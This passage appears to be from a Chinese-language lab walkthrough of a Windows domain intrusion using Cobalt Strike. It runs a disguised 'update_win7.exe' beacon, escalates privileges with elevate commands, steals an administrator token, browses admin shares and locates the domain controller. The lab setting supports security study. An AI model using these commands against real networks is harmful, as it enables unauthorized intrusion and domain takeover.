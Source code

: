   ![update_win7.exe](https://p.ipic.vip/pbqwmy.png)

  ```shell
  # 进入shell,执行update_win7.exe
  shell
  cd C:\Windows\Temp
  update_win7.exe            
  ```

  ![image-20230919004819833](https://p.ipic.vip/qt9d4g.png)

  - cs查看上线情况，win7成功上线

    ![image-20230919004637867](https://p.ipic.vip/i5wedy.png)

#### 3. win7提权 --》 获取域管账户权限

- 提升主机权限到system权限 （普通用户的情况下，如果直接是system权限，请忽略这一步）

```
如果你是普通本地用户权限，用以下命令提升到高权限
注意：如果是域用户会弹出认证窗口，不能提权
elevate uac-token-duplication : 选择监听器
然后可以用  elevate svc-exe  再提权到system权限
```

- 进入system的beacon查看主机进程，可以查看所有进程情况，找一个administrator的进程，窃取令牌

  > `steal_token`: 窃取令牌

  ![image-20230918002946371](https://p.ipic.vip/vl3p13.png)

  ```shell
  # 窃取administrator用户的token
  steal_token 3876
  # 再查看当前用户,已经拿到了域管权限
  shell whoami
  ```

  ![image-20230918003058170](https://p.ipic.vip/8pl8s1.png)

- 查看主机名 `shell net localgroup /domain`

  ![image-20230918003424845](https://p.ipic.vip/vjg9j5.png)

- 查看该主机目录`shell dir \\WIN-VT056J4KITR.test.local\c$`

  ![image-20230918003334353](https://p.ipic.vip/hmr0fs.png)

- 域控主机定位

  域机器的主机dns会指向域控，所以域控主机的ip应该是192.168.111.130

  ![image-20230918015641524](https://p.ipic.vip/aqqxfx.png)

- 配置代理使攻击机访问到111网段
